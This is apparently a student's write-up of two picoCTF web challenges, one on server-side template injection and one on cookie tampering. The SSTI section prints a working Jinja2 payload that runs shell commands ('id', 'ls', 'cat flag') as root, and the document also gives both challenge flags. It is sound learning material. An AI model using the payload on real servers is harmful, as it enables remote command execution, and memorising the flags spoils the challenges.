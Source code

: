 # SSTI1
> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

## Solution:

- I tried the common expressions `7*9`, `${7*9}`, `{{7*9}}`, `=<%= 7*9 %>`
- `7*9`, `${7*9}` and `=<%= 7*9 %>` gave the output `7*9`, `${7*9}` and `=<%= 7*9 %>` respectively
- But `{{7*9}}` actually executed the code and gave output `63`
- This implies that it executes Jinja2 (Python) code
- I looked up "how to ssti python" and found a bunch of commands which are as follows
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
- I found this payload that can execute commands and running it gives
```
uid=0(root) gid=0(root) groups=0(root)
```
- so my payload code is working and I can input anything I want...
- running the `ls` command using `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` gave output
```
__pycache__ app.py flag requirements.txt
```
- next logical step is to obviously `cat flag` using `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}` which gives us the flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}
```

## Flag:

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}
```

## Concepts learnt:

- server-side template injection attack (SSTI) is when a hacker exploits and injects malicious payloads into the website.
- It can allow hackers to gain full control of a targeted server. 


## Resources:

- (https://www.imperva.com/learn/application-security/server-side-template-injection-ssti/)
- (https://onsecurity.io/article/server-side-template-injection-with-jinja2/)


***




# Cookies
> Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:64944/


## Solution:

- When searched for snickerdoodle the website changes to http://mercury.picoctf.net:64944/check but it doesnt change if something random like "aaa" is searched for.
- Since the challenge is called cookies I checked the cookies on firefox dev tools
- The cookie value is "0" when it's on snickerdoodle whereas it is "-1" for a random number
  <img width="1919" height="1016" alt="image" src="https://github.com/user-attachments/assets/59408767-9c4a-4a1e-83a5-6497bc9c8f6d" />

- So next I checked what happens if I put some other cookie... "pinwheel" has a value of 16
- This leads me to believe that the flag also must be a related to a cookie value.
- Upon manually entering values from 0 to 18, I found the flag on the 18. `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`




## Flag:

```
picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```

## Concepts learnt:

- cookies store data on client computer and are sent to server to display its associated information
- I can change the cookie value and see a different page


## Notes:

- I could have automated it using a script but my knowledge to is too elementary to write it by myself
- I discovered that burpsuite could be utilized for such purposes
- doing manually felt like i was doing it wrong... till i found the flag xD



***
